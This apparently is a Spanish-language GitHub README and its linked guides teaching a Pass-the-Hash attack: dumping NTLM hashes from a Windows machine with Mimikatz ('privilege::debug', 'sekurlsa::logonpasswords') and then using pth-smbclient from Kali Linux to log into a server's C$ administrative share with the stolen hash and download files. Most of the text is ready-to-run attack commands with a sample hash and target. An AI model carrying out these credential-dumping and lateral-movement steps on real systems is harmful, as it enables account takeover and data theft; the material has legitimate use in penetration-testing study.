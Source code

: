 # Pass The Hash con SMBClient

Este repositorio explica cómo utilizar **Pass The Hash (PtH)** para acceder a recursos compartidos SMB en un servidor Windows, extrayendo el hash NTLM desde un equipo Windows y utilizando `pth-smbclient` en una máquina Kali Linux.

![imagen](https://github.com/90l3m0np13/PassTheHash/blob/main/Imagenes/Portada.jpeg)

## Requisitos
- Acceso a un equipo Windows con privilegios de administrador.
- Una máquina Kali Linux con `pth-toolkit` instalado.
- Conocimientos básicos de PowerShell y Linux.

## Scripts
- [Script de PowerShell para extraer hashes con Mimikatz](Scripts/mimikatz-extract-hash.ps1)
- [Script de ejemplo para usar pth-smbclient](Scripts/pth-smbclient-example.sh)

## Contribuciones
Si encuentras algún error o tienes sugerencias, ¡no dudes en abrir un issue o enviar un pull request!

---

### **2. extract-hash-windows.md**
Guía detallada para extraer el hash NTLM en Windows usando Mimikatz.


# Extraer el hash NTLM en Windows

## Requisitos
- Privilegios de administrador en el equipo Windows.
- Herramienta [Mimikatz](https://github.com/gentilkiwi/mimikatz).

## Pasos

1. **Descargar Mimikatz:**
   - Descarga Mimikatz desde su [repositorio oficial](https://github.com/gentilkiwi/mimikatz).

2. **Ejecutar Mimikatz como administrador:**
   - Abre una ventana de PowerShell como administrador.
   - Navega a la carpeta donde descargaste Mimikatz y ejecuta:
     ```powershell
     .\mimikatz.exe
     ```

3. **Extraer hashes NTLM:**
   - Dentro de Mimikatz, ejecuta los siguientes comandos:
     ```bash
     privilege::debug
     sekurlsa::logonpasswords
     ```
   - Busca el hash NTLM del usuario administrador en la salida. Ejemplo:
     ```
     NTLM Hash: 32ED87BDB5FDC5E9CBA88547376818D4
     ```

4. **Guardar el hash:**
   - Anota el hash NTLM para usarlo en Kali Linux.


![imagen](https://github.com/90l3m0np13/PassTheHash/blob/main/Imagenes/mimikatz.png)


---

### **3. pth-smbclient-kali.md**
Guía para usar `pth-smbclient` en Kali Linux.


# Usar pth-smbclient en Kali Linux

## Requisitos
- Hash NTLM del usuario administrador.
- Herramienta `pth-toolkit` instalada en Kali Linux.

## Pasos

1. **Instalar pth-toolkit:**
   - Abre una terminal en Kali Linux y ejecuta:
     ```bash
     sudo apt update
     sudo apt install pth-toolkit
     ```

2. **Autenticarse con pth-smbclient:**
   - Usa el siguiente comando para acceder al servidor:
     ```bash
     pth-smbclient //IPDelServidor/RecursoCompartido -U Usuario%HashNTLM
     ```
   - Ejemplo:
     ```bash
     pth-smbclient //192.168.1.10/C$ -U Administrador%32ED87BDB5FDC5E9CBA88547376818D4
     ```

3. **Navegar por los archivos:**
   - Usa comandos como `ls`, `cd`, y `get` para explorar y descargar archivos.

## Ejemplo de salida de pth-smbclient
![imagen](https://github.com/90l3m0np13/PassTheHash/blob/main/Imagenes/pth-smbclient.png)


